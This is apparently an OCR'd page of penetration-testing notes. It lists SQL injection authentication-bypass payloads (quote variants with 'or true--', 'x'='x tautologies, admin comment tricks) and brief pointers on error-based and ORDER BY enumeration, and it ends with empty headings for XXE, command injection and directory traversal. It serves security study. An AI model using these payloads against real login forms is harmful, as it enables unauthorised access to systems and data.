     `"-"`

    `" "`

    `"&"`

    `"^"`

    `"*"`

    `" or ""-"`

    `" or "" "`

    `" or ""&"`

    `" or ""^"`

    `" or ""*"`

    `or true--`

    `" or true--`

    `' or true--`

    `") or true--`

    `') or true--`

    `' or 'x'='x`
    
    `') or ('x')=('x`

    `')) or (('x'))=(('x`

    `" or "x"="x`

    `") or ("x")=("x`

    `")) or (("x"))=(("x`

    - known Username:

        `admin’ - -`

        `admin’) - -`

- Using error-bases DB enumeration

    - Add the tick `'`

    - Enumerate columns

- Using order by: <https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html>

### XML External Entity (XXE)

### URL vulnerability

### OS command Injection

### Directory traversal
